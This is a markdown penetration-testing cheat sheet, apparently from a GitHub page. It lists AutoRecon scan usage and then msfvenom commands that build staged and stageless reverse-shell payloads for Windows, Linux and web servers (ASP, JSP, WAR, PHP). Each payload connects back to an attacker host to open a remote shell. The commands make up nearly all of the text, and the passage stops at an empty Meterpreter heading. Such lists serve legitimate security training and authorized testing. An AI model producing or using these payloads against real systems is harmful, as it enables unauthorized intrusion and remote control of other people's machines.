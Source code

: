 ## AutoRecon

```
autorecon <IP 1> <IP 2> -o <output location>
  > autorecon <hostname 1>
  > autorecon <IP block/24>
  > autorecon -t <target file>
```

## METASPLOIT

### msfvenom

#### Non-Meterpreter

##### **Windows**

```
STAGED
x86: msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64: msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

```
STAGELESS
x86: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

##### **Linux**

```
STAGED
x86: msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64: msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

```
STAGELESS
x86: msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64: msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

##### **Web**

```
asp: msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php: msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

#### Meterpreter

##### Windows

